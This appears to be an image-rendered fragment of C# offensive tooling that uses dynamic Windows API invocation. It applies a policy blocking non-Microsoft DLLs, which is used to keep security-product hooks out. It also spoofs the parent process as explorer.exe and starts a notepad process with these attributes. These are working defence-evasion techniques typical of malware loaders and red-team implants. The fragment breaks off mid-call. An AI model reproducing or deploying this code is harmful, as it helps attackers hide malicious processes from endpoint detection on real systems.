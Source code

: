 ```c#
                {
                    Marshal.WriteIntPtr(lpValue, new IntPtr(unchecked((uint)Win32.BinarySignaturePolicy.BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON)));
                }

                funcParams = new object[]
                {
                    si.lpAttributeList,
                    (uint)0,
                    (IntPtr)Win32.ProcThreadAttribute.MITIGATION_POLICY,
                    lpValue,
                    (IntPtr)IntPtr.Size,
                    IntPtr.Zero,
                    IntPtr.Zero
                };

                Generic.DynamicAPIInvoke(
                    "kernel32.dll",
                    "UpdateProcThreadAttribute",
                    typeof(UpdateProcThreadAttribute),
                    ref funcParams,
                    true);

                // PPID Spoof
                var hParent = Process.GetProcessesByName("explorer")[0].Handle;
                lpValue = Marshal.AllocHGlobal(IntPtr.Size);
                Marshal.WriteIntPtr(lpValue, hParent);

                // Start Process
                funcParams = new object[]
                {
                    si.lpAttributeList,
                    (uint)0,
                    (IntPtr)Win32.ProcThreadAttribute.PARENT_PROCESS,
                    lpValue,
                    (IntPtr)IntPtr.Size,
                    IntPtr.Zero,
                    IntPtr.Zero
                };

                Generic.DynamicAPIInvoke(
                    "kernel32.dll",
                    "UpdateProcThreadAttribute",
                    typeof(UpdateProcThreadAttribute),
                    ref funcParams,
                    true);

                var pa = new Win32.SECURITY_ATTRIBUTES();
                var ta = new Win32.SECURITY_ATTRIBUTES();
                pa.nLength = Marshal.SizeOf(pa);
                ta.nLength = Marshal.SizeOf(ta);

                funcParams = new object[]
                {
                    null,
                    "notepad",
                    pa,
                    ta,
                    false,
                    Win32.CreationFlags.EXTENDED_STARTUPINFO_PRESENT,
                    IntPtr.Zero,
                    "C:\\Windows\\System32",
                    si,
```